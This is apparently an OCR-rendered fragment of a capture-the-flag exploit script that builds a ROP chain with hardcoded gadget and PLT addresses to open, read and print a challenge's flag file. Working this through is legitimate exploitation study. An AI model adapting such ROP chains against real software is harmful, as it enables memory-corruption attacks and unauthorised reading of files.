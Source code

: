 ```
	segment += p64(1)
	segment += p64(0x600fc0) # address of GOT_close
	segment += p64(arg)
	segment += p64(0xdead)*2
	segment += p64(0x400a46)
	# 0x400a46 Not found with rop gadget, but will lead to moc rdx, r13 at 0x400a50
	segment += "0"*8*7 # For the rbx, rbp, r12, r13, r14, and r15 registers
	return segment

# Make the ROP Chain

# offset from the start of our input, to the return address
chain = "0"*56

# Rop Chain segment for open("/dev/pts/2", 0x2702, 0x0)
chain += popRdx(0)
chain += popRsi(0x2702)
chain += popRdi(0x601040 + len(stdinSL + "\x00"))
chain += openPlt

# Rop Chain segment for open("/dev/pts/2", 0x2702, 0x0)
chain += popRdx(0)
chain += popRsi(0x2702)
chain += popRdi(0x601040 + len(stdinSL + "\x00"))
chain += openPlt

# Rop Chain segment for open("/home/guy/flag.txt", 0x0, 0x0)
chain += popRdx(0)
chain += popRsi(0x0)
chain += popRdi(0x601040 + len(stdinSL + "\x00" + stdout + "\x00"))
chain += openPlt

# Rop Chain segment for read(2, 0x601000, 10000)
chain += popRdx(10000)
chain += popRsi(0x601000)
chain += popRdi(2)
chain += readPlt

# Rop Chain for puts(0x601000)
chain += popRdi(0x601000)
chain += putsPlt

# Send the string we want for the input filename
target.sendline(stdinSL + "\x00" + stdout + "\x00" + flag + "\x00")

# Send our offset, 0
target.sendline("0")

# Send our input size, the size of our ROP Chain
target.sendline(str(len(chain)))

# Send our ROP Chain
target.sendline(chain)

# Drop to an interactive shell and see the flag, if we did everything right
print target.interactive()
```
